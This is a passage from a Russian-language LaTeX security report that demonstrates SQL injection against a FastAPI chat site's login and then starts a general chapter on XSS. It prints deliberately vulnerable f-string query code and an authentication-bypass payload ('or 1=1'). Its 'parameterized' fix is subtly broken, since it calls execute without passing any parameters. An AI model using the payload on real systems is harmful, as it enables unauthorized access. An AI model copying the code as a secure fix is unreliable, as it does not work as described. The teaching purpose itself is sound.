	 	
\includegraphics[width=1\textwidth]{auth.png}
	 	\caption{Окно авторизации с введенными данными}
	 	\label{fig:auth}
	 \end{figure}
	 
	 В случае если нажмем кнопку "Зайти" и были верно введены логин и пароль, то произойдет авторизация и мы попадем на вторую страницу сайта - чат:
	 
	 \begin{figure}[!ht]
	 	\centering
	 	
\includegraphics[width=1\textwidth]{chat.png}
	 	\caption{Вторая страница сайта - чат}
	 	\label{fig:chat}
	 \end{figure}
	 
	 Однако, если мы посмотрим на обработку post-запроса данных формы, то мы можем увидеть, что запрос для базы данных составляется с помощью простой конкатенации f-строки:
	 \begin{lstlisting}[ language=python, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]    
@app.post("/login", response_class=JSONResponse)
async def login(login_data: LoginData):
	query = f"""
		select users.id
		from users
		where login = '{login_data.login}' 
			and pass = '{login_data.password}'
"""
	with sqlite3.connect(db_file) as conn:
		cursor = conn.cursor()
		cursor.execute(query)
		data = cursor.fetchall()
		if len(data) < 1:
			return None
		return data[0][0]
	 \end{lstlisting}
	 
	 Поэтому мы можем попробовать ввести вместо пароля выражение: ``' or 1=1 - -`` и авторизоваться:
	 
	 \begin{figure}[!ht]
	 {\centering
	 
\includegraphics[width=1\textwidth]{auth_sql_injection_attack.png}
	 \caption{Окно авторизации с введенными данными}\par\medskip
	 \label{fig:auth_sql_injection_attack} 
	 }
	 У нас действительно получилось зайти без знания пароля:\par\bigskip
	 {\centering
	 
\includegraphics[width=0.9\textwidth]{chat_sql_injection_attack_success.png}
	 \caption{Получен доступ к чату без знания пароля}
	 \label{fig:chat_sql_injection_attack_success}
	 }
	 \end{figure}
	 \pagebreak
	 Теперь попробуем противодействовать sql-инъекции путем переписания кода обработки данных формы в коде, а именно заменим конкатенацию f-строки на параметризированный запрос. Таким образом, у нас получится, что вредоносная строка вместо пароля у нас будет восприниматься именно как строка, а не как часть запроса. Получится вот такой код:
	 
	 \begin{lstlisting}[ language=python, deletekeywords={IDENTITY},deletekeywords={[2]INT},morekeywords={clustered},framesep=8pt,xleftmargin=40pt,framexleftmargin=40pt,frame=tb,framerule=0pt]    
@app.post("/login", response_class=JSONResponse)
async def login(login_data: LoginData):
	query = f"""
	 	select users.id
	 	from users
	 	where login = ? and pass = ?
"""
	with sqlite3.connect(db_file) as conn:
		cursor = conn.cursor()
	 	cursor.execute(query)
	 	data = cursor.fetchall()
	 	if len(data) < 1:
	 		return None
	 	return data[0][0]
	 \end{lstlisting}
	 
	 Попробуем вновь воспользоваться уязвимостью:
	 
	 \begin{figure}[!ht]
	 	\centering
	 	
\includegraphics[width=1\textwidth]{auth_sql_injection_defenced.png}
	 	\caption{Использовав параметризованный запрос, удалось защититься от sql-инъекции}
	 	\label{fig:auth_sql_injection_defenced}
	 \end{figure}
	 
	 
	 Таким образом, у нас получилось защититься от sql-инъекции с помощью использования параметризированного запроса.
	 
	 Для написания сайта использовался fastapi(python) на бекенде, для обращений к базе данных использовался встроенный модуль sqlite3, на фронте html, css и чистый js. Исходный код с историей изменений можно найти на Github.\cite{Github_chat_site_project}
	 
	 
	 
	 
	 
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 	
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \chapter[Межсайтовый скриптинг (XSS)]{Межсайтовый скриптинг (XSS)}
	 
	 \section{Понятие межсайтового скриптинга и его воздействие на пользователей}
	 
	 Межсайтовый скриптинг (XSS, Cross-Site Scripting) – это тип атаки, направленной на внедрение вредоносного кода (обычно JavaScript) в веб-страницы, которые затем отображаются уязвимым пользователям. 
	 
	 \subsection{Сущность XSS}
	 
	 XSS-атаки эксплуатируют доверие пользователя к веб-сайту. Злоумышленник внедряет вредоносный код в веб-страницу, и когда пользователь посещает эту страницу, код выполняется в его браузере. Этот код может быть использован для:
	 
	 \begin{itemize}
	 	\item \textbf{Кражи данных пользователя}: злоумышленник может украсть файлы cookie, токены сессии, пароли и другую конфиденциальную информацию.
	 	\item \textbf{Выполнения действий от имени пользователя}: злоумышленник может использовать код для выполнения действий на сайте от имени пользователя, например, отправки сообщений, изменения настроек или совершения покупок.
	 	\item \textbf{Перенаправления пользователя на вредоносные сайты}: злоумышленник может перенаправить пользователя на фишинговые сайты или сайты, содержащие вредоносное ПО.
	 	\item \textbf{Отображения ложной информации}: злоумышленник может использовать код для изменения контента страницы, например, отображения ложных сообщений или подмены информации. 
	 \end{itemize}
	 
	 \subsection{Воздействие на пользователей}
	 
	 XSS-атаки могут иметь серьезные последствия для пользователей, включая:
	 
	 \begin{itemize}
	 	\item \textbf{Финансовые потери}: злоумышленник может украсть данные кредитной карты или банковского счета пользователя и использовать их для совершения мошеннических операций.
	 	\item \textbf{Кража личных данных}: злоумышленник может украсть личную информацию пользователя, такую как имя, адрес, номер телефона и т. д., и использовать ее для мошенничества, шантажа или других злонамеренных целей.
	 	\item \textbf{Ущерб репутации}: если пользователь стал жертвой XSS-атаки на сайте, который он считает надежным, это может подорвать его доверие к этому сайту и к Интернету в целом.
	 	\item \textbf{Потеря данных}: злоумышленник может использовать XSS-атаку для удаления или изменения данных пользователя, что может привести к потере важной информации.
	 	\item \textbf{Вредоносное ПО}: злоумышленник может использовать XSS-атаку для установки вредоносного ПО на компьютер пользователя, что может привести к дальнейшим проблемам с безопасностью и конфиденциальностью.
	 \end{itemize}
	 
	 \subsection{Типичные сценарии XSS-атак}
	 
	 XSS-атаки могут быть реализованы различными способами. Вот несколько типичных сценариев:
	 
	 \begin{itemize}
	 	\item \textbf{Внедрение кода в поля формы}: злоумышленник может ввести вредоносный код в поле формы, например, в поле комментария или поиска. Когда страница отображается, код выполняется в браузере пользователя.
	 	\item \textbf{Внедрение кода в URL}: злоумышленник может внедрить код в URL-адрес, который затем отправляется пользователю, например, через электронную почту или сообщение в чате. Когда пользователь переходит по ссылке, код выполняется в его браузере.
	 	\item \textbf{Внедрение кода в файлы cookie}: злоумышленник может внедрить код в файлы cookie, которые затем отправляются на сервер при каждом запросе пользователя. Если сервер не проверяет файлы cookie перед их использованием, код может быть выполнен в браузере пользователя.
	 \end{itemize}
	 
	 \textbf{Важно понимать, что XSS-атаки могут быть очень опасными и иметь серьезные последствия для пользователей. Поэтому разработчики веб-приложений должны принимать меры для защиты своих сайтов от этого типа атак.}
	 
	 
	 
	 
	 
	 
	 
	 \section{Различные типы XSS-атак и их примеры}
	 
	 XSS-атаки могут быть классифицированы по нескольким критериям, включая способ внедрения кода, контекст выполнения кода и цель атаки. 
	 
	 \subsection{Классификация по способу внедрения}
	 
